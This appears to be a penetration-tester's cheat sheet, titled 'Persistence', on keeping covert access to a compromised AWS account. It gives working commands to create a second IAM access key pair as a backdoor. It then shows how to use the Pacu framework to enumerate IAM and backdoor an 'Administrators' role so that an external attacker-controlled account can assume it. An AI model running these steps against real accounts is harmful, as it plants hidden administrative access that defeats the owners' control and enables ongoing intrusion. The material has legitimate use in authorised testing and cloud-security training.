 # Persistence
# Index
* [Backdoor account](#Authentication)
* [Outside entity Trust relationships](#Trust relationships)


## Backdoor account
- Each account can have two access keys
#### List access keys
```
aws iam list-access-keys --user-name <username>
```

#### Create second pair of access keys
```
aws iam create-access-key --user-name <username>
```

## Trust relationships
- Can create a trust relationship with an entity OUTSIDE of an AWS account. (cross account persistence)

#### Run pacu
```
sudo python3 cli.py
import_keys <AWS PROFILE NAME>
```

#### Run the enumeration modules
```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

#### Find ARN of external AWS account
```
sudo aws sts get-caller-identity
```

#### Backdoor the role
-  Pacu has a module that backdoors IAM roles called iam__backdoor_assume_role
```
run iam__backdoor_assume_role
run iam__backdoor_assume_role --role-names Administrators --user-arns <full ARN of your external account>
```

#### Use the external AWS account backdoor
- Not sure how to get ARN of the policy
```
sudo aws sts assume-role --role-arn <Full ARN of Backdoored Role> --role-session-name persist --profile <personal AWS account profile>
```
